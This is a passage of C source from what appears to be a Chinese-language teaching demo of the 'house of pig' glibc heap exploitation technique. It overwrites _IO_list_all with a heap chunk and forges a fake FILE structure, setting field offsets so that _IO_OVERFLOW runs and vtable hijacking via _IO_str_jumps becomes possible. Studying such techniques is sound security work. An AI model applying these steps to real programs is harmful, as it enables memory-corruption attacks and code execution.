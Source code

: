 ```c
                 "  _IO_lock_lock (list_all_lock);\n"
                 "#endif\n"
                 "\n"
                 "  \033[1;31mfor (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)\n"
                 "    {\n"
                 "      run_fp = fp;\n"
                 "      if (do_lock)\n"
                 "\t_IO_flockfile (fp);\n"
                 "\n"
                 "      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)\n"
                 "\t   || (_IO_vtable_offset (fp) == 0\n"
                 "\t       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr\n"
                 "\t\t\t\t    > fp->_wide_data->_IO_write_base))\n"
                 "\t   )\n"
                 "\t  && _IO_OVERFLOW (fp, EOF) == EOF)\n"
                 "\tresult = EOF;\n"
                 "\n"
                 "      if (do_lock)\n"
                 "\t_IO_funlockfile (fp);\n"
                 "      run_fp = NULL;\n"
                 "    }\n\033[1;" PURPLE "m"
                 "\n"
                 "#ifdef _IO_MTSAFE_IO\n"
                 "  _IO_lock_unlock (list_all_lock);\n"
                 "  _IO_cleanup_region_end (0);\n"
                 "#endif\n"
                 "\n"
                 "  return result;\n"
                 "}\n\n");
    printf_color(GREEN, UNDEFINED, "注意红色部分的代码，这便是遍历_IO_list_all链中的所有FILE实例。\n");
    printf_color(GREEN, UNDEFINED, "其中一条if语句的判断条件中会调用_IO_OVERFLOW函数。\n");
    printf_color(GREEN, UNDEFINED, "这个函数指的是vtable中overflow那个字段对应的函数。\n");
    printf_color(GREEN, UNDEFINED, "要执行到这个函数，就必须要让前面一个判断条件满足。\n");
    printf_color(GREEN, UNDEFINED, "这也就是我们伪造FILE结构体时需要注意的地方。\n");
    printf_color(GREEN, UNDEFINED, "下面我们就来修改_IO_list_all的值，用一个chunk地址填充。\n");

    size_t chunk_2 = (size_t) calloc(1, 0xF0) - 0x10;
    // ---------- 第二处漏洞利用 ---------- //
    *_IO_list_all = chunk_2;
    // --------------------------------- //
    printf_color(YELLOW, HIGHLIGHT, "这个chunk的起始地址为：");
    printf("\033[" HIGHLIGHT ";" YELLOW "m%#zx\n" STR_END, chunk_2);

    printf_color(RED, HIGHLIGHT, "第四步：伪造FILE结构体。\n");
    printf_color(GREEN, UNDEFINED, "我们使用第二次分配到的chunk作为假FILE结构体进行构造。\n");
    printf_color(GREEN, UNDEFINED, "再次强调注意_IO_flush_all_lockp函数的限定条件。\n");
    printf_color(GREEN, UNDEFINED, "if语句的前一个判断条件是两个判断相或，我们只需要满足第一个判断即可：\n");
    printf_color(RED, HIGHLIGHT, "fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base\n");
    printf_color(GREEN, UNDEFINED, "其中_mode字段的偏移为0xC0，_IO_write_ptr为0x28，_IO_write_base为0x30。\n");
    printf_color(GREEN, UNDEFINED, "我们在_mode处填0，在_IO_write_ptr填1，在_IO_write_base填0就可以了。\n");

    size_t* fake_FILE = (size_t*) chunk_2;
    fake_FILE[0xC0 / 8] = 0;    // _mode
    fake_FILE[0x20 / 8] = 1;
    fake_FILE[0x28 / 8] = 0xFFFFFFFFFFFF;    // _IO_write_ptr
    fake_FILE[0x30 / 8] = 0;    // _IO_write_base

    printf_color(GREEN, UNDEFINED, "三个字段修改完成。但我们需要修改的可不止这三个字段。\n");
    printf_color(GREEN, UNDEFINED, "在这个判断条件通过后，我们将会进入overflow函数。\n");
    printf_color(GREEN, UNDEFINED, "house of pig的一个重要思想就是让其执行_IO_str_overflow函数。\n");
    printf_color(GREEN, UNDEFINED, "这需要我们在vtable中写入_IO_str_jumps的地址，其中保存有这个函数的地址。\n");
    printf_color(GREEN, UNDEFINED, "看一下IDA中的_IO_str_jumps结构体：\n\n");
    printf_color(PURPLE, HIGHLIGHT,
```